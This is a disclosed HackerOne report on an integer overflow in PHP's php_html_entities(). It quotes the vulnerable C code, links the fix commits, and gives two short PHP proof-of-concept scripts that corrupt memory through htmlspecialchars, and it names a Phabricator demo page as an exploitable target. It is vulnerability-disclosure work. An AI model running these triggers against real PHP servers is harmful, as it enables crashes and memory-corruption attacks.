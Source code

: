 # Integer Overflow in php_html_entities()

## Report Details
- **Report ID**: 140865
- **URL**: https://hackerone.com/reports/140865
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-25T02:45:23.224Z
- **Disclosed**: 2019-10-13T11:04:30.404Z

## Reporter
- **Username**: ryat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
This bug report at https://bugs.php.net/bug.php?id=72135, and fixed in:
https://github.com/php/php-src/commit/41fc3c76e97a36ff3b505da7d704ca17bb171fdf
https://github.com/php/php-src/commit/0da8b8b801f9276359262f1ef8274c7812d3dfda
https://github.com/php/php-src/commit/e9559131152ab0fa89737db11ebe8f43e1435b96

```
static void php_html_entities(INTERNAL_FUNCTION_PARAMETERS, int all)
{
	...
	size_t new_len;
	...
	RETVAL_STRINGL(replaced, (int)new_len, 0);
}
```

The new_len is defined as size_t, then to be a signed int in RETVAL_STRINGL(), that results in new_len into a negative value and get a corrupted string-typed ZVAL.

```
ZEND_API int add_string_to_string(zval *result, const zval *op1, const zval *op2) /* {{{ */
{
	int length = Z_STRLEN_P(op1) + Z_STRLEN_P(op2);
	char *buf;

	if (IS_INTERNED(Z_STRVAL_P(op1))) {
		buf = (char *) emalloc(length+1);
		memcpy(buf, Z_STRVAL_P(op1), Z_STRLEN_P(op1));
	} else {
		buf = (char *) erealloc(Z_STRVAL_P(op1), length+1);
	}
	memcpy(buf + Z_STRLEN_P(op1), Z_STRVAL_P(op2), Z_STRLEN_P(op2));
```

The string add operations with a corrupted string-type ZVAL will able to lead to integer overflow and remote code execution. 

PoC:
```
<?php

ini_set('memory_limit', -1);
$str = htmlspecialchars(str_repeat('&', 0xffffffff/5));
echo "$str";

?>
```

A lot of functions with a corrupted string-typed ZVAL will able to lead to memory corruption, ex:

```
md5
...
defined
class_exists
function_exists
...
trigger_error
date_default_timezone_set
hash_init
...
date
gmdate
...
collator_create
normalizer_normalize
grapheme_strlen
...
```

PoC:
```
<?php

	ini_set('memory_limit', -1);
	$str = htmlspecialchars(str_repeat('&', 0xffffffff/5));
	md5($str);
	
?>
```

Exploitation of this bug in real world/apps:

A lot of PHP apps use htmlspecialchars/htmlentities handles user input data, and successful exploitation of this bug is possible, ex Phabricator:

https://github.com/phacility/phabricator/blob/121e68e3adae4cd21731b79c07ca89676def7e19/externals/wepay/demoapp/openaccount.php
```
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
	if (isset($_POST['account_name']) && isset($_POST['account_description'])) {
		// WePay sanitizes its own data, but displaying raw POST data on your own site is a XSS security hole.
		$name = htmlentities($_POST['account_name']);
		$desc = htmlentities($_POST['account_description']);
		try {
			$wepay = new WePay($_SESSION['wepay_access_token']);
			$account = $wepay->request('account/create', array(
				'name' => $name,
				'description' => $desc,
			));
			echo "Created account $name for '$desc'! View on WePay at <a href=\"$account->account_uri\">$account->account_uri</a>. See all of your accounts <a href=\"accountlist.php\">here</a>.";
		}
```

## Attachments
No attachments
